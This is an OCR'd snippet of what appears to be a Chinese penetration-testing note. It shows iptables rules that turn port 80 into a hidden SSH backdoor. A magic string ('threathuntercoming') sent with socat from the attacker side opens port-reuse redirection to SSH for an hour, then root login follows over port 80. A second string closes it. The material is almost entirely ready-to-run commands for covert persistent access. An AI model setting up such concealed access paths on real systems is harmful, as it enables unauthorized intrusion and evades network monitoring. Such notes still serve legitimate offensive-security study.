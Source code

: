 	>iptables -t nat -N LETMEIN 
	>iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
	# 开启开关
	>iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
	# 关闭开关
	>iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
	>iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
	攻击端：
	#开启复用
	>echo threathuntercoming | socat - tcp:192.168.0.110:80
	#ssh使用80端口进行登录
	ssh -p 80 root@192.168.0.110
	#关闭复用
	echo threathunterleaving | socat - tcp:192.168.0.110:80
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/580.png)